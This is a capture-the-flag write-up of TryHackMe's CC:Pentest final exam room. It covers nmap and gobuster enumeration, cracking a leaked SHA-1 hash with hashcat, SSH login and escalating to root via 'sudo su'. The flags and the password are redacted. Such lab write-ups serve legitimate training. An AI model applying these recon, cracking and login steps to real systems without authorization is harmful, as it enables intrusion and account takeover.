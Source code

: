 ```yaml
---
title: TryHackMe - CC Pentest Final Exam Writeup
layout: post
category: Writeup
date: 2020-10-21
---
```


# Intro

This writeup is THM's CC:Pentest Room's Final Exam's walkthrough which can be found [here](https://tryhackme.com/room/ccpentesting). The objective is to figure out the user flag and root flag.

**Tools used**: Nmap, Gobuster, Hashcat, Privilege Escalation. 

# Analysis

## Nmap

For information gathering and enumeration, I started off with an NMAP stealth scan.

```
nmap -p- -v --min-parallelism 100 -sV 10.10.24.168
```
Here, *-p-* scans all 65,535 ports, *-v* is a verbose flag, *--min-parallelism* probes parallelism to speed up the scan and *-sV* shows the version of services running on the target IP.

The results of the scan returned as follows

```cli
Nmap scan report for 10.10.24.168
Host is up (0.31s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
62157/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So there's 2 ports open with SSH and Apache. We'll come back to this later, if needed. 

## GoBuster

Gobuster is a directory bruteforcing tool that will search for hidden directories on the port 80 web server. Let's run the code below to see what it outputs

```
gobuster dir -u 10.10.24.168 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

The output was 
```
===============================================================
2020/10/21 22:27:08 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
===============================================================
2020/10/21 22:31:48 Finished
===============================================================
```

Aha! There's a directory called 'secret' on the server. However, there's nothing displayed if I visit it and nothing interesting in the source too. So I had to run gobuster on it again under that directory.

```
gobuster dir -u 10.10.24.168/secret -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

And this time I found

```
/index.html (Status: 200)
```

Nothing again, but the hint says check for different extensions so let's check with other extensions like .txt.

```
gobuster dir -u 10.10.24.168/secret -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .txt
```

This shows a 'secret.txt' file. When I open this, I see

```
nyan:046385855FC9580393853D8E81F240B66FE9A7B8
```

Which seem like the credentials for the SSH client from the earlier NMAP scan. Let's use this to connect to the SSH server.

```
ssh nyan@10.10.24.168
```
But if I use the default password seen above, it doesn't work. As I suspected, this password is hashed. So I used *hashid* to verify the hash being used.

```
hashid 046385855FC9580393853D8E81F240B66FE9A7B8
```
And the results pointed it out to be SHA-1

To crack this, let's use *hashcat* as below.

```
hashcat -m 100 hash /usr/share/wordlists/rockyou.txt --force
```

The *-m* flag sets the mode to 100 which pertains to SHA-1

The results of this crack were as follows:

```
046385855fc9580393853d8e81f240b66fe9a7b8:[redacted]
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: 046385855fc9580393853d8e81f240b66fe9a7b8
Time.Started.....: Wed Oct 21 23:00:00 2020, (1 sec)
Time.Estimated...: Wed Oct 21 23:00:01 2020, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3480.8 kH/s (0.57ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4972544/14344385 (34.67%)
Rejected.........: 0/4972544 (0.00%)
Restore.Point....: 4964352/14344385 (34.61%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: o103192 -> nwcfleshwound
```

Success! The SSH password is as seen above next to the hash
Let's use that to login to the SSH server.

## User

After logging in, running *ls* gives us the user flag.

```
nyan@ubuntu:~$ ls
user.txt
nyan@ubuntu:~$ cat user.txt
[redacted]
nyan@ubuntu:~$ 
```

Now onto the root flag!

If I run 

```
nyan@ubuntu:~$ ls -latr
total 36
drwxr-xr-x 3 root root 4096 Dec 20  2019 ..
-rw-r--r-- 1 nyan nyan  655 Dec 20  2019 .profile
-rw-r--r-- 1 nyan nyan 3771 Dec 20  2019 .consolerc
-rw-r--r-- 1 nyan nyan  220 Dec 20  2019 .console_logout
drwx------ 2 nyan nyan 4096 Dec 20  2019 .cache
-rw-r--r-- 1 nyan nyan    0 Dec 20  2019 .sudo_as_admin_successful
drwxrwxr-x 2 nyan nyan 4096 Dec 20  2019 .nano
-rw-rw-r-- 1 nyan nyan   14 Dec 20  2019 user.txt
-rw------- 1 nyan nyan   16 Dec 20  2019 .console_history
drwxr-xr-x 4 nyan nyan 4096 Dec 20  2019 .
```
## Root

There's a hidden file, console_history, opening it, I saw 3 lines of previous history.

```
su
sudo su
exit
```

When I run the second line, I successfully entered root.
It seems that *sudo* had the SUID bit set on it.

```
nyan@ubuntu:~$ sudo su
root@ubuntu:/home/nyan# whoami
root
root@ubuntu:/home/nyan# 
```

And so

```
root@ubuntu:/home/nyan# cd ../..
root@ubuntu:/# cd root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
[redacted]
```

We have successfully found the root flag and thereby finished this exam. 

## *Thanks for following along.*


